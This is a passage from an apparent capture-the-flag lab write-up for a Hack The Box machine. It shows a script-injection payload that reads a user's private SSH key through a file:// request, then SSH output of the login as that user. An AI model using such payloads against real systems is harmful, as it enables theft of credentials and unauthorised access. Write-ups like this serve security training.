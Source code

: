 ```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

![SSH-Key leaked](/assets/htb/Book/xss-ssh-key.png)

Now that we have the ssh-key, we can use it to login as the user reader.

### Getting a shell as user

Now that we have the ssh-key of the user, we can login using ssh.

```bash
root@darkness:~# ssh -i id_rsa reader@10.10.10.176
The authenticity of host '10.10.10.176 (10.10.10.176)' can't be established.
ECDSA key fingerprint is SHA256:QRw8pCXg7E8d9sWI+0Z9nZxClJiq9/eAeT/9wUfoQQk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.176' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 18 13:52:32 UTC 2020
```